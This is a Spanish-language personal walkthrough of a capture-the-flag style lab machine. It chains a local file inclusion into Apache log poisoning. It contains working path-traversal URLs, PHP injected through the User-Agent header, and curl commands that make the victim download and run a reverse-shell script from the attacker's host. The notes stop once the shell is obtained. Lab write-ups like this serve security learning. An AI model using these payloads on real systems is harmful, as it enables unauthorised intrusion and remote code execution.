 Hacemos un escaneo con nmap:
![[Mis apuntes/ANEXOS/Pasted image 20230826174126.png]]
Y esta es la página web:
![[Mis apuntes/ANEXOS/Pasted image 20230826174146.png]]
Si hacemos clic en sign up, vemos que se nos cambia la URL donde se llama a un fichero llamado default.php, lo que nos da una pista de un posible local file inclusion:
![[Mis apuntes/ANEXOS/Pasted image 20230826174712.png]]
Hay una herramienta para automatizar ataques de local file inclusion en el siguiente repositorio:
```bash
https://github.com/kvlx-alt/LFI-Scanner
```
![[Mis apuntes/ANEXOS/Pasted image 20230826174740.png]]
La bajamos y probamos:
![[Mis apuntes/ANEXOS/Pasted image 20230826174910.png]]
Y nos pide la url, donde la pegaremos justo en el momento antes que cargue el default.php:
![[Mis apuntes/ANEXOS/Pasted image 20230826174957.png]]
Y vemos que nos pide un diccionario para hacer ataques de fuerza bruta, por lo que nos bajamos uno de github:
```bash
https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt
```
![[Mis apuntes/ANEXOS/Pasted image 20230826175150.png]]
![[Mis apuntes/ANEXOS/Pasted image 20230826175235.png]]
Una vez bajado, lo cargamos en la herramienta y nos encuentra el path vulnerable:
![[Mis apuntes/ANEXOS/Pasted image 20230826175312.png]]
```bash
http://192.168.0.42/index.php?page=....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd
```
Lo pegamos en la web y vemos que funciona:
![[Mis apuntes/ANEXOS/Pasted image 20230826175334.png]]
Lo interesante es que una vez pudiendo ver archivos del sistema, podemos ver también el archivo access.log de apache, por lo que es posible que estemos ante un log poisonning:
```bash
http://192.168.0.42/index.php?page=....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//var/log/apache2/access.log
```
![[Mis apuntes/ANEXOS/Pasted image 20230826175526.png]]
Ejecutamos un comando de forma remota con curl:
```bash
curl -s -X GET 'http://192.168.0.42/' -H "User-Agent: <?php system('whoami'); ?>"
```
Y vemos que se ejecutó correctamente en la máquina víctima:
![[Mis apuntes/ANEXOS/Pasted image 20230828115822.png]]
Por lo que ahora ingresamos código para enviarnos una reverse shell, de tal forma que creamos el script con el payload:
![[Mis apuntes/ANEXOS/Pasted image 20230828120026.png]]
Nos montamos un servidor http con python compartiendo este script:
![[Mis apuntes/ANEXOS/Pasted image 20230828120059.png]]
Y ejecutamos los siguientes comandos:
```python
curl -s -X GET 'http://192.168.0.42' -H "User-Agent: <?php system('wget http://10.8.100.91/pwned.sh'); ?>"

curl -s -X GET 'http://192.168.0.42' -H "User-Agent: <?php system('chmod 777 pwned.sh'); ?>"

curl -s -X GET 'http://192.168.0.42' -H "User-Agent: <?php system('bash pwned.sh'); ?>"
```
Y recibimos la reverse shell:
![[Mis apuntes/ANEXOS/Pasted image 20230828120606.png]]
Una vez dentro, vemos que tenemos 3 carpetas pero no tenemos permiso para acceder a ninguna de ellas:
